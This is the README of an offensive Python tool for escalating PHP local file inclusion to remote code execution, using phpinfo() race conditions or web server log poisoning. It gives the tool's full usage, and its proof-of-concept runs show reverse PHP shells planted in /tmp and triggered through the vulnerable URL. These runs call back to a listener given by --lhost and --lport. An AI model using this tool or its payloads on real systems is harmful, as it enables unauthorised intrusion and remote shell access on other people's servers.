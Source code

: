 # LFI to RCE via phpinfo() assistance or via controlled log file 

For more details about exploit via phpinfo(). Research from [here](https://insomniasec.com/downloads/publications/LFI%20With%20PHPInfo%20Assistance.pdf)

For more details about exploit via controlled log file. A writeup from [here](https://outpost24.com/blog/from-local-file-inclusion-to-remote-code-execution-part-1)

# Use case
#### About LFI to RCE via phpinfo()
- Found an LFI Vulnerability
- Any script that displays the output of the PHPInfo() function will do. In most cases this will be /phpinfo.php 

#### About LFI to RCE via controlled log file
- Found an LFI Vulnerability
- found the web server log file path or try paths from script.

# Usage 

```
usage: lfito_rce.py [-h] [-a ACTION] -l LFI --lhost LHOST --lport LPORT
                         [--payload PTYPE] [-e REQEND] [-v VERBOSE]
                         [-t THREADS] [-i PHPINFO] [-f LOGFILE]

RCE from LFI with PHPINFO assistance or Via controlled log file

optional arguments:
  -h, --help            show this help message and exit
  -a ACTION, --action ACTION
                        Define the attack type - 1 for PHPINFO and - 2 for
                        controlled log. Value 1 by default
  -l LFI, --lfi LFI     the url path of the LFI vuln, per example
                        "http://127.0.0.1:8080/lfi.php?file="
  --lhost LHOST         The local ip to listen, for rev shell
  --lport LPORT         The local port to listen, for rev shell
  --payload PTYPE       Set the type of payload to use. 1|2|3 By default
                        payload is set to 3
  -e REQEND, --end REQEND
                        Define any end of lfi request, per examlpe "%00" by
                        default the end request is empty
  -v VERBOSE, --verbose VERBOSE
                        Define verbose output. set to False by default
  -t THREADS, --threads THREADS
                        [For phpinfo action]. Threads number, set to 10 by
                        default
  -i PHPINFO, --phpinfo PHPINFO
                        [For phpinfo action]. Define the url path of the
                        "phpinfo" script. Per ex: "http://host/phpinfo.php"
  -f LOGFILE, --logfile LOGFILE
                        [For controlled log action]. Define the path of the
                        http server log file. By default script will use
                        bruteforce

```


# POC
#### About LFI to RCE via phpinfo() 

```
$ python lfito_rce.py -l "http://host/browse.php?file=" --lhost 127.0.0.1 --lport 9001  -t 12  -i "http://host:8080/phpinfo.php"

 ____   ____   ____   ____ _     _       _              _ 
|  _ \ / __ \ / /\ \ / ___| |__ / |____ | |_ ___   ___ | |
| |_) / / _` | |  | | |  _| '_ \| |_  / | __/ _ \ / _ \| |
|  _ < | (_| | |  | | |_| | | | | |/ /  | || (_) | (_) | |
|_| \_\ \__,_| |  | |\____|_| |_|_/___|  \__\___/ \___/|_|
       \____/ \_\/_/                                      

Find all scripts in: https://github.com/roughiz


LFI With PHPInfo() RCE script
-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=

Spawning worker pool (12)...
  24 /  1000
Got it! Reverse php Shell created in /tmp/IVA1XpPtHGjS.php

Yep! The payload works great !

I will execute the reverse shell, requesting the url: http://host/browse.php?file=/tmp/IVA1XpPtHGjS.php

Verify your nc listenner 127.0.0.1:9001
Shuttin' down...

```

#### About LFI to RCE via controlled log file

```
$ python lfito_rce.py -a 2 -l "http://host/browse.php?file=" --lhost 127.0.0.1 --lport 9001

 ____   ____   ____   ____ _     _       _              _ 
|  _ \ / __ \ / /\ \ / ___| |__ / |____ | |_ ___   ___ | |
| |_) / / _` | |  | | |  _| '_ \| |_  / | __/ _ \ / _ \| |
|  _ < | (_| | |  | | |_| | | | | |/ /  | || (_) | (_) | |
|_| \_\ \__,_| |  | |\____|_| |_|_/___|  \__\___/ \___/|_|
       \____/ \_\/_/                                      

Find all scripts in: https://github.com/roughiz


LFI RCE via controlled log
-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=

  16 /   26
Got it! Reverse php Shell created in /tmp/k0THSi7vdS58.php

I will execute the reverse shell, requesting the url: http://host/browse.php?file=/tmp/k0THSi7vdS58.php

Verify your nc listenner 127.0.0.1:9001

```

### Nota 

Sometimes you have to use a hight thread value to increase your chances of success !!
 
#### Install the pyfiglet python module like :

```
$ sudo pip install pyfiglet
```

